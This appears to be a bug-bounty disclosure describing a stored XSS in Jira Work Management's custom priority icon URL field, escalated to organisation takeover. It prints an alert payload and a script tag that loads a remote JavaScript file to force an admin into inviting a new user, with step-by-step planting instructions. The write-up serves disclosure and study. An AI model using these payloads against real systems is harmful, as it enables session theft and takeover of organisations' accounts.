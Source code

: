 Jira Work Management is a widely used collaboration tool designed to help teams track all activity considered work. Work might include running projects, managing approval processes, performing daily and periodic tasks, creating documents, and a lot more.

Our team recently found an Stored XSS issue in Jira Work management which allowed them to demonistrate an Full Orginisation Takeover impact within Jira Work Management Software of Atlassian.

## Technical Analysis

Jira work management is one of the products that lie within Atlaissian Eco-system and is accessable through the url `bugbounty-test-<bugcrowd-name>.atlassian.net/jira/your-work`


![image](https://user-images.githubusercontent.com/88488902/196861542-5a40d52e-c7d6-42e4-bc19-ea9b2df7b71d.png)

Different organizations use Jira work Management to track different kinds of issues, which can represent anything from a software bug, to a project task, or a leave request form.

![image](https://user-images.githubusercontent.com/88488902/196862718-107760da-0dbd-4fe6-90a5-59cae71ab8de.png)


users can create issues and track them, Issues in Jira are made up of fields that store various pieces of information. Every issue comes with default system fields, like name or description, Periority etc, An issue's priority indicates its relative importance within the target Orginisation.

Jira Work Management provide  default priorities values like(Highest, High, Medium, Low, Lowest) But Both the priorities and their meanings can be customized by your administrator to suit your organization. 


We Noticed An user with proper permissions can create a new Custom Periority with icon URL Property set to `https://google.com?name=</script><script>alert(0)</script>` 

![image](https://user-images.githubusercontent.com/88488902/196863642-d9afd97e-14ad-4001-acdd-0cd8906d55a4.png)


On Saving the Periority, it seems there was no Validation(Encoding) or `Icon Url` property happening at the backend, hence triggered an XSS at the Frontend.

![image](https://user-images.githubusercontent.com/88488902/196864070-f2f97700-bed7-41a4-a30d-ae234d961b48.png)




## Impact

In the context of web application the Stored XSS has an Known impact, Stored XSS (also known as second-order XSS) is the most dangerous type of cross-site scripting attack. The reason is that it does not require users to click a malicious link or perform any activity, other than browsing to a legitimate web page. Once an attacker discovers a stored XSS vulnerability and stores the XSS code into the context of the the target web application, all visitors to affected pages can be compromised by either stealing their session cookies/Tokens or making several changes(email-change etc) to their account leading to full account takeover impact.

The real challenge for us was demonstrating the proper impact of the vulnerability. Because this was an authenticated XSS, we went straight to Jira User management and spent some time understanding user roles and their and levels of access within the application.

The goal was to find the lowest-level role possible that could create the Custom Priority with an XSS payload and then deliver the attack to Admin/Super admins within the organisation.

and we landed on `Product admin permission` , He had no permission to access any of the jira products like Confluence, Service management which means he don't have access to any Jira applications but can perform administration tasks which includes Editing Issues Periorties.

![image](https://user-images.githubusercontent.com/88488902/196865675-619bd57f-ba4a-4b65-81ab-deddd7a2461c.png)

and we landed on `Product admin permission` , He had no permission to access any of the jira products like Confluence, Service management which means he don't have access to any Jira applications but can perform administration tasks which includes Editing Issues Periorties.


## In org takeover

Now let's assume we have invited an User with Product admin permission > he has no permission to access any of the jira products like Confluence, Service management which means he don't have access to any Jira applications but can perform administration tasks which includes Editing Issues Periorties.

- Login with an User with Product admin permission , Click on Setting Icon and then Click on Issues

![image](https://user-images.githubusercontent.com/88488902/196865675-619bd57f-ba4a-4b65-81ab-deddd7a2461c.png)


- Now Scroll down and Add a new Priorities with the following icon url, and click ADD button `https://google.com?name=</script><script src=https://snapsec.co/jira-xss.js></script>`


![image](https://user-images.githubusercontent.com/88488902/196865804-378e702f-3d10-4220-b8b4-3b9de3bab597.png)



- Now as soon as Admin Visits the same page from his browser, An invite request will be sent from his browser .

![image](https://user-images.githubusercontent.com/88488902/196865837-2ef2a8e5-a04a-4285-ac34-acb116e64bf4.png)

- and to confirm you can go to user management and see attacker forced admin to invited a new user with access to 3 products, Hence would allow him to view/create/delete/modify projects in those products


![image](https://user-images.githubusercontent.com/88488902/196865866-8a6f5e62-9aeb-4dbd-b77e-9f0f87f701d5.png)






